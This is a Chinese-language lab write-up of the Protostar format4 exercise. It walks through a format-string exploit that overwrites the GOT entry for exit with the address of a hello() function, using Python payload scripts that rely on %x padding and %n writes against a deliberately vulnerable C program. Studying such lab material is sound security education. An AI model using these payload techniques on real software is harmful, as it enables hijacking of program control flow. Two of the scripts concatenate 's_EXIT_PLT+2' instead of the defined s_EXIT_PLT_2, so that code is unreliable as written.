# 0x13 Format String Exploit and overwrite the Global Offset Table
> 格式化字符串漏洞+GOT表覆盖
- 漏洞代码
  ```c
    #include <unistd.h>
    #include <stdio.h>
    #include <string.h>
    int target;
    void hello()
    {
        printf("code execution redirected! you win\n");
    }
    void vuln()
    {
        char buffer[512];
        fgets(buffer, sizeof(buffer), stdin);
        // printf 第一个参数为用户输入，是一个格式化参数
        printf(buffer);
        // exit(1)，表示程序不会返回，而是直接执行 syscall 退出程序及进程
        exit(1);
    }
    int main(int argc, char **argv)
    {
        vuln();
    }

  ```
- 最后执行的效果：覆盖 GOT 表中的 exit 函数，转而执行 hello 函数
## 利用步骤
- 首先，初步运行并验证是否包含格式化字符串漏洞
  
- 获取相关地址信息
  
- 上图中 `0x08049724` 中的值需要覆盖为 hello 函数的地址 `0x80484b4`
- 首先计算 printf 传入参数在栈中的偏移，计算得偏移为 **4**（**`%x` 用于查看栈中内容**）
  
- 计算需如何构造达到覆盖`0x08049724` 中的值为 hello 函数的地址 `0x80484b4`
  - 计算 `0x80484b4` 十进制大小
    
    若完全将 134513844 个字符写入文件中作为程序的输入，一字符为一字节，文件会相当大，因此，借助`%x`完成输入。
    ```bash
    int a = 16
    # 转换为16进制输出
    %2x = 10
    %3x = 010
    %4x = 0010
    ...
    ```
  - 直接使用 `%134513844x` 输出过多，因此使用将 `0x80484b4` 分为高位和低位两次写入
- 写入 `0x84b4` 于`0x08049724`地址中值的低位
  

  ```python
  import struct
  HELLO = 0x80484b4
  EXIT_PLT = 0x8049724
  # 待覆盖的地址
  s_EXIT_PLT = struct.pack("I",EXIT_PLT)
  # len(s_EXIT_PLT) = 4
  def pad(s):
          return s+'X'*(512-len(s))
  exploit = ""
  exploit += s_EXIT_PLT
  exploit += "%4$33968x"
  # %4$n 前打印的字符数量为 33968+4 = 33972 符合需要覆盖的值
  # %4$n 表示将之前打印的字符数写入栈中偏移为4的位置
  exploit += "%4$n"
  print pad(exploit)
  ```
  
  
- 写入 `0x804` 于`0x08049724`地址中值的高位
  ```python
  import struct
  HELLO = 0x80484b4
  EXIT_PLT = 0x8049724
  # 待覆盖的地址
  s_EXIT_PLT = struct.pack("I",EXIT_PLT)
  s_EXIT_PLT_2 = struct.pack("I",EXIT_PLT+2)
  # len(s_EXIT_PLT) = 4
  def pad(s):
          return s+'X'*(512-len(s))
  exploit = ""
  exploit += s_EXIT_PLT
  exploit += s_EXIT_PLT+2
  exploit += "%4$33964x"
  # %4$n 前打印的字符数量为 33964+4+4 = 33972 符合需要覆盖的值
  # %5$n 表示将之前打印的字符数写入栈中偏移为5的位置
  exploit += "%4$n"
  exploit += "%5$n"
  print pad(exploit)
  ```
  
  - 由于之前打印的字符已有 `0x84b4` 个，而高位需要的字符仅有 `0x804` 个，因此选择上溢为 `0x10804` 以满足要求
    
    ```python
    import struct
    HELLO = 0x80484b4
    EXIT_PLT = 0x8049724
    # 待覆盖的地址
    s_EXIT_PLT = struct.pack("I",EXIT_PLT)
    s_EXIT_PLT_2 = struct.pack("I",EXIT_PLT+2)
    # len(s_EXIT_PLT) = 4
    def pad(s):
            return s+'X'*(512-len(s))
    exploit = ""
    exploit += s_EXIT_PLT
    exploit += s_EXIT_PLT+2
    exploit += "%4$33964x"
    # %4$n 前打印的字符数量为 33964+4+4 = 33972 符合需要覆盖的值
    # %5$n 表示将之前打印的字符数写入栈中偏移为5的位置
    exploit += "%4$n"
    exploit += "%5$33616x"
    exploit += "%5$n"
    print pad(exploit)
    ```
    
- 直接运行：`python format4_exp.py | ./format4`
  
## 参考链接
- [exploit-exercises-protostar-stack-0](https://medium.com/@coturnix97/exploit-exercises-protostar-stack-0-269d77e62e9d)
- [liveoverflow_binary-hacking](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)
